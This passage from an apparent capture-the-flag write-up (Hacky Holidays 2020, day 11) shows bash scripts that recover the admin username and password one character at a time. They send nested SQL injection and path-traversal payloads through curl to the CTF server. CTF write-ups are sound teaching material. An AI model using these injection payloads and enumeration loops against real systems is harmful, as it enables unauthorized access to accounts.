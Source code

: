 			fi
			
		done
		
		if [ $(echo $check) != 1 ]; then 
			cont=0 
		fi

    done
    echo -e "\nUSERNAME : $user" 
    ```
    This script takes just a wordlist of chars ( my wordlist was containing the following characters: `[a-z,A-Z,0-9,!@$]`) and check which are valid.
    The script showed that username is **`grinchadmin`**

    ![IMAGE](/assets/img/posts/hackyholiday2020/day11/day-11-8.png)

4. We found the username, now its time for password, which is quite straight forward now. I simply altered the above script and found the valid password too!

    ```bash
    pass="";
    check=0;
    cont=1;
    while [ $(echo $cont) == 1 ]; do
	    check=0;
	    for char in $(cat $1)
		do
			curl -s "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=8291%27%20UNION%20SELECT%20%22%27%20union%20select%201,2,%27../api/user?username=grinchadmin%26password=$pass$char%25%27%23%22,null,null%23" > response.txt; 
			hash=$(cat response.txt | grep data= | cut -d "?" -f2 | cut -d = -f2 | cut -d \" -f1 | tail -n 1)
			curl -s -i "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=$hash" > final.txt
			tail -n 1 final.txt	 | grep "Invalid content type detected" > gotit.txt
			echo -n "$char "
			if [ -s gotit.txt ]; then
				echo -e "\nValid character found : $char"
				pass+=$char
				check=1;
				rm gotit.txt
				break
			fi
			